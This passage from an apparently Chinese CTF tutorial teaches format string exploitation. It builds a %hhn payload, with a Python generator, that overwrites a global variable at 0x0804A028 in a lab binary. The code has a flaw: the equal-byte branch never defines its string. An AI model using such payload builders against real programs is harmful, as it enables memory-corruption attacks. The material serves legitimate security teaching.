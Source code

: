 所以说，我们可以利用%hhn向某个地址写入单字节，利用%hn向某个地址写入双字节。这里，我们以单字节为例。

首先，我们还是要确定的是要覆盖的地址为多少，利用ida看一下，可以发现地址为0x0804A028。

```text
.data:0804A028                 public b
.data:0804A028 b               dd 1C8h                 ; DATA XREF: main:loc_8048510r
```

即我们希望将按照如下方式进行覆盖，前面为覆盖地址，后面为覆盖内容。

```text
0x0804A028 \x78
0x0804A029 \x56
0x0804A02a \x34
0x0804A02b \x12
```

首先，由于我们的字符串的偏移为6，所以我们可以确定我们的payload基本是这个样子的

```text
p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
```

我们可以依次进行计算。这里给出一个基本的构造，如下

```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(6,4,0x0804A028,0x12345678)
```

其中每个参数的含义基本如下
